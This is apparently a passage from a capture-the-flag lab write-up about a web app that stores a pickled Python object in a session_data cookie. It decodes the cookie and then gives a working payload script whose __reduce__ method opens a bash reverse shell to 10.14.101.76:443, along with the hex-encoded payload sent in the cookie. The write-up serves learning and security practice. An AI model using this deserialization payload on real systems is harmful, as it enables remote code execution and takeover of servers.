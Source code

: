 ```console
   37: \x94     MEMOIZE    (as 3)
   38: \x8c     SHORT_BINUNICODE '85000'
   45: \x94     MEMOIZE    (as 4)
   46: u        SETITEMS   (MARK at 13)
   47: .    STOP
highest protocol among opcodes = 4
```
{: .wrap }

or simply by deserializing (unpickling) it ourselves:

```console
$ python3
Python 3.13.3 (main, Apr 10 2025, 21:38:51) [GCC 14.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import pickle
>>> session_data = "80049525000000000000007d94288c0475736572948c0474657374948c07726576656e7565948c05383530303094752e"
>>> obj = pickle.loads(bytes.fromhex(session_data))
>>> print("Unpickled object:", obj)
Unpickled object: {'user': 'test', 'revenue': '85000'}
```

If in our subsequent requests the `session_data` cookie we have sent is not sanitized and used simply by deserializing it, we can use this to achieve **RCE** by creating a serialized object with a malicious `__reduce__` method that runs a reverse shell payload which gets executed when the object is being deserialized as such:

```py
import pickle
import os

class Malicious:
    def __reduce__(self):
        return (os.system, ("/bin/bash -c 'bash -i >& /dev/tcp/10.14.101.76/443 0>&1'",))

malicious_pickle = pickle.dumps(Malicious())

print("Malicious pickle in hex:", malicious_pickle.hex())
```
{: file="payload.py"}

Now running the script to create our malicious pickled object payload:

```console
$ python3 payload.py
Malicious pickle in hex: 80049553000000000000008c05706f736978948c0673797374656d9493948c382f62696e2f62617368202d63202762617368202d69203e26202f6465762f7463702f31302e31342e3130312e37362f34343320303e26312794859452942e
```

Sending our payload in the `session_data` cookie by making a request to the server, we can see the server hanging.

![Web Ia 5000 Cookie Payload Burp](web_ia_5000_cookie_payload_burp.webp){: width="1000" height="500"}
